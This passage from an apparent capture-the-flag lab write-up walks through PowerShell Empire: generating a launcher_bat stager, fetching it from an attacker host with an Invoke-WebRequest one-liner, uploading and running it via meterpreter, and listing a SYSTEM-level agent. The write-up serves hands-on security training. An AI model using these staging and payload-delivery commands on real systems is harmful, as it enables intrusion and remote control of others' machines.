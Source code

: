 Answer: `Listener`

## #4.4

**Type execute to finish creating our stager. Where is the stager saved?**

~~~
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat
~~~

Answer: `/tmp/launcher.bat`

## #4.5

**Using any shell you have previously gained into our victim system transport the stager batch file to the system and execute it. This can be done in numerous ways depending on the stager used, be prepared to be flexible with your transportation methods similarly to how you might handle an msfvenom package.**

I first tried to download the `launcher.bat` file on the Windows machine via the reverse shell with a powershell command (`powershell -c "Invoke-WebRequest 'http://10.9.0.54:8000/launcher.bat' -OutFile 'C:\windows\temp\launcher.bat'"`) but it failed. I decided to upgrade my reverse shell to a meterpreter (`session -u 1`) to directly upload the file, which worked perfectly.

~~~
meterpreter > upload /tmp/launcher.bat c:/windows/temp/launcher.bat
[*] uploading  : /tmp/launcher.bat -> c:/windows/temp/launcher.bat
[*] Uploaded 5.01 KiB of 5.01 KiB (100.0%): /tmp/launcher.bat -> c:/windows/temp/launcher.bat
[*] uploaded   : /tmp/launcher.bat -> c:/windows/temp/launcher.bat

meterpreter > execute -f launcher.bat
Process 1772 created.
~~~

# [Task 5] Agents and Post-Exploitation 

Interact with our ses.. er agents and do neat things. 

## #5.1

**First, type agents to view our registered agents.**

~~~
(Empire: agents) > agents

[*] Active agents:
                                                                                                                                                                                                                                          
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 BW41RVG5 ps 10.10.63.14     JON-PC            *WORKGROUP\SYSTEM       powershell         1592   5/0.0    2020-07-29 16:42:10  http            
~~~
